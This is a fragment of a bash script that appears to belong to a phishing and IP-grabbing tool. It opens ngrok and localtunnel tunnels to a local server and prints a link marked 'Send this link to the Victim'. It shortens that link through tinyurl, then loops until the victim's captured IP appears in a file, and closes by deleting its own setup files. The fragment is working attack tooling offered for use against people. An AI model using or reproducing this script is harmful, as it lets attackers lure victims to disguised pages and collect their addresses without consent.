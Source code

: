 printf "\e[1;92m[\e[0m*\e[1;92m] Starting localtunnel server...\n"
./ngrok http 127.0.0.1:5555  > /dev/null 2>&1 &
sleep 8
lt --port 5555 --subdomain wmw-$server-com > /dev/null 2>&1 &
sleep 4
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" "https://wmw-"$server"-com.loca.lt"
short_link=`wget -q -O - http://tinyurl.com/api-create.php?url=https://wmw-$server-com.loca.lt`
printf "\e[1;92m[\e[0m*\e[1;92m] Use shortened link instead:\e[0m\e[1;77m %s\e[0m\n" $short_link
echo ""
echo ""

checkfound
}

checkfound() {


printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting victim open the link ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m*\e[1;92m] IP Found!\n"
catch_ip

fi
sleep 1
done 

}
rm -rf setup.sh
rm -rf tmxsp.sh
rm -rf index.html
rm -rf .gitignore
rm -rf .nojekyll
banner
menu
